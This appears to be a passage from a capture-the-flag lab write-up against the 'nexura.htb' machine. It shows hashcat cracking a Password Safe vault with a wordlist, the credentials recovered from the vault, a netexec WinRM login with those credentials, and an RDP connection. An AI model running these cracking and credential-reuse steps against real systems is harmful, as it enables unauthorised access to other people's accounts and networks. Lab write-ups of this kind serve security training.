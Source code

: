 ### Hashcat Password Vault Cracking

#### Identify Hash Mode
```bash
# Find appropriate hashcat mode for Password Safe v3
hashcat --example-hashes | grep -i safe -A 5

# Result: Mode 5200 - Password Safe v3
Name................: Password Safe v3
Category............: Password Manager
Slow.Hash...........: Yes
Password.Len.Min....: 0
Password.Len.Max....: 256
```

#### Crack Password Vault
```bash
# Crack with rockyou wordlist
hashcat -m 5200 Employee-Passwords_OLD.psafe3 /usr/share/wordlists/rockyou.txt.gz

# Result:
Employee-Passwords_OLD.psafe3:michaeljackson              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5200 (Password Safe v3)
```

### Password Vault Access
```bash
# Access vault with cracked password: "michaeljackson"
# Contents revealed:
# - bdavid:caramel-cigars-reply1
# - stom:fails-nibble-disturb4
```

---

## ⚔️ Phase 7: Privilege Escalation

### Credential Validation
```bash
# Test new credentials against internal network
netexec winrm hosts -u bdavid -p 'caramel-cigars-reply1'

# Results:
WINRM       172.16.119.7    5985   JUMP01           [+] nexura.htb\bdavid:caramel-cigars-reply1 (Pwn3d!)
```

### Administrative Access via RDP
```bash
# Connect as administrator
xfreerdp /v:172.16.119.7 /u:bdavid /p:'caramel-cigars-reply1' /dynamic-resolution /drive:linux,.
```
